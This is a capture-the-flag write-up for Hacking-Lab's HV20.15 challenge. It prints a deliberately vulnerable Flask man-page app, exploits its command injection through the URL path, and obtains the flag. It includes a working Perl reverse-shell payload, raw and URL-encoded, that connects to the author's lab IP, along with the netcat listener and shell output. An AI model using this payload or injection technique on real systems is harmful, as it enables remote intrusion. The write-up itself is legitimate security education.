

# HV20.15 Man Commands, Server Lost

## Introduction

_Elf4711 has written a cool front end for the linux man pages. Soon after publishing he got pwned. In the meantime he found out the reason and improved his code. So now he is sure it's unpwnable._

## Notes

- _You need to start the web application from the `RESOURCES` section on top_
- _This challenge requires a VPN connection into the Hacking-Lab. Check out the document in the `RESOURCES` section._

## Hints

- _Don't miss the source code link on the man page_

---

The web page looks like this:



At the bottom, there is a link to the source code:
```python
# flask_web/app.py

from flask import Flask,render_template,redirect, url_for, request
import os
import subprocess
import re

app = Flask(__name__)

class ManPage:
  def __init__(self, name, section, description):
    self.name = name
    self.section = section
    self.description = description

@app.route('/')
def main():
  return redirect('/man/1/man')

@app.route('/section/')
@app.route('/section/<nr>')
def section(nr="1"):
  ret = os.popen('apropos -s ' + nr + " .").read()
  return render_template('section.html', commands=parseCommands(ret), nr=nr)

@app.route('/man/')
@app.route('/man/<section>/<command>')
def manpage(section=1, command="bash"):
  manFile = "/usr/share/man/man" + str(section) + "/" + command + "." + str(section) + ".gz"
  cmd = 'cat ' + manFile + '| gunzip | groff -mandoc -Thtml'
  try: 
    result = subprocess.run(['sh', '-c', cmd ], stdout=subprocess.PIPE)
  except subprocess.CalledProcessError as grepexc:                                                                                                   
    return render_template('manpage.html', command=command, manpage="NOT FOUND")

  html = result.stdout.decode("utf-8")
  htmlLinked = re.sub(r'(<b>|<i>)?([a-zA-Z0-9-_.]+)(</b>|</i>)?\(([1-8])\)', r'<a href="/man/\4/\2">\1\2\3</a><a href="/section/\4">(\4)</a>', html)
  htmlStripped = htmlLinked[htmlLinked.find('<body>') + 6:htmlLinked.find('</body>')]
  return render_template('manpage.html', command=command, manpage=htmlStripped)

@app.route('/search/', methods=["POST"])
def search(search="bash"):
  search = request.form.get('search')
  # FIXED Elf4711: Cleaned search string, so no RCE is possible anymore
  searchClean = re.sub(r"[;& ()$|]", "", search)
  ret = os.popen('apropos "' + searchClean + '"').read()
  return render_template('result.html', commands=parseCommands(ret), search=search)
  
def parseCommands(ret):
  commands = []
  for line in ret.split('\n'):
    l = line.split(' - ')
    if (len(l) > 1):
      m = l[0].split();
      manPage = ManPage(m[0], m[1].replace('(', '').replace(')',''), l[1])
      commands.append(manPage)
  return commands

if __name__ == "__main__":
  app.run(host='0.0.0.0' , port=7777)
```

The `manpage` method is vulnerable to command injection. Just try to change the URL into `/man/1/;sleep%205;` and
observe the response is delayed.

We were supposed to use a VPN for this challenge. I downloaded [Hacking-Lab LiveCD](https://livecd.hacking-lab.com/)
with pre-configured VPN to save troubles with setting up that manually.

To make sure the VPN works, I tried to inject `ping` command.
- In the VM, start listening for ICMP packets: `tcpdump -i tap0 ip proto \\icmp`
- Inject `ping -c 3 10.13.0.6` command: `/man/1/;ping%20-c%203%2010.13.0.6;`

Bingo, I started receiving ICMP packets in the VM:
```
$ tcpdump -i tap0 ip proto \\icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tap0, link-type EN10MB (Ethernet), capture size 262144 bytes
09:51:06.311400 IP 152.96.7.3 > 10.13.0.6: ICMP echo request, id 101, seq 1, length 64
09:51:06.311626 IP 10.13.0.6 > 152.96.7.3: ICMP echo reply, id 101, seq 1, length 64
09:51:07.310833 IP 152.96.7.3 > 10.13.0.6: ICMP echo request, id 101, seq 2, length 64
09:51:07.310902 IP 10.13.0.6 > 152.96.7.3: ICMP echo reply, id 101, seq 2, length 64
09:51:08.312229 IP 152.96.7.3 > 10.13.0.6: ICMP echo request, id 101, seq 3, length 64
09:51:08.312302 IP 10.13.0.6 > 152.96.7.3: ICMP echo reply, id 101, seq 3, length 64
```

### Getting a reverse shell

The first step is start listening for the incoming connection (in your VM):
```
$ nc -l -v 10.13.0.6 2797
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on 10.13.0.6:2797
```

Then I tried some payloads from [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
but none of them worked (returning `HTTP 404`).

To debug why they didn't work, I downloaded the source code and ran the app locally with some extra print statements.
This is the reason: https://github.com/pallets/flask/issues/900

Luckily, it was easy to fix the payload not to contain any `/`.

I used this one:
```
perl -e 'use Socket;$i="10.13.0.6";$p=2797;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

This is the final payload:
```
/man/1/;perl%20-e%20%27use%20Socket%3B%24i%3D%2210.13.0.6%22%3B%24p%3D2797%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22sh%20-i%22%29%3B%7D%3B%27;
```

Once executed, the shell went alive:
```
Ncat: Connection from 152.96.7.3.
Ncat: Connection from 152.96.7.3:60392.
sh: 0: can't access tty; job control turned off

$ ls -la
total 8
drwxr-xr-x.   1 root root   17 Dec 15 10:53 .
drwxr-xr-x.   1 root root   17 Dec 15 10:53 ..
-rwxr-xr-x.   1 root root    0 Dec 15 10:53 .dockerenv
drwxr-xr-x.   1 root root  179 Dec 14 18:03 bin
drwxr-xr-x.   2 root root    6 Nov 22 12:37 boot
drwxr-xr-x.   5 root root  340 Dec 15 10:53 dev
drwxr-xr-x.   1 root root   66 Dec 15 10:53 etc
-rw-rw-r--.   1 root root   36 Oct 27 16:04 flag
drwxr-xr-x.   1 root root   20 Dec 14 18:05 home
...

$ cat flag
HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}
```

The flag is `HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`
